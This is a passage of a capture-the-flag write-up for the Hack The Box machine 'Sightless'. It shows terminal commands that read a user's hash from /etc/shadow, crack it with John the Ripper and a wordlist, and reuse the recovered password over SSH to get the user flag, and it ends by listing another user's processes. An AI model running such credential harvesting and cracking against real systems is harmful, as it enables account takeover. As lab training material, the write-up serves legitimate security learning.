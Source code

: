 ## User
Always enumerate a bit manually before running heavy tools like linpeas ! In this case another user is present in the container :
```terminal
root@c184118df0a6:/# ls /home
michael  node
root@c184118df0a6:/# ls /home/michael
root@c184118df0a6:/#
```
Well two users, but I assume node is created for sqlpad. Since we are root we can access the hash of michael, in `/etc/shadow` !
```terminal
root@c184118df0a6:/# grep michael /etc/shadow
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```
There are many many tutorials on [how to brute force linux passwords](https://erev0s.com/blog/cracking-etcshadow-john/), and you can even ask chatgpt. Now I'll copy michael's shadow line in a file called `s`, and his passwd line in a file called `p`, then :
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt       
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)

┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ john hash --show                                     
michael:insaneclownposse:1001:1001::/home/michael:/bin/bash

1 password hash cracked, 0 left
```
Since I've already cracked it I had to pass it `--show`, you wont have to do this if it's your first time cracking it.

We can try to connect to the host with these credentials, and it works !
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ sshpass -p insaneclownposse ssh michael@sightless.htb
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$ cat user.txt 
b6b1f528799b649e259c3186d2932f4f
```
And boom `user.txt` :)

## John
We are not alone on the box, there is also john in `/home`. We can try to enumerate his processes : 
```terminal
michael@sightless:~$ ls /home
john  michael                                                                                                                                
michael@sightless:~$ ps -u john -o cmd >out && cat out                                                                                       
CMD                                                                                                                                          
/bin/sh -c sleep 110 && /usr/bin/python3 /home/john/automation/administration.py                 
/bin/sh -c sleep 140 && /home/john/automation/healthcheck.sh                                                                                 
/usr/bin/python3 /home/john/automation/administration.py                                                                                     
/home/john/automation/chromedriver --port=37871                                                                                               
```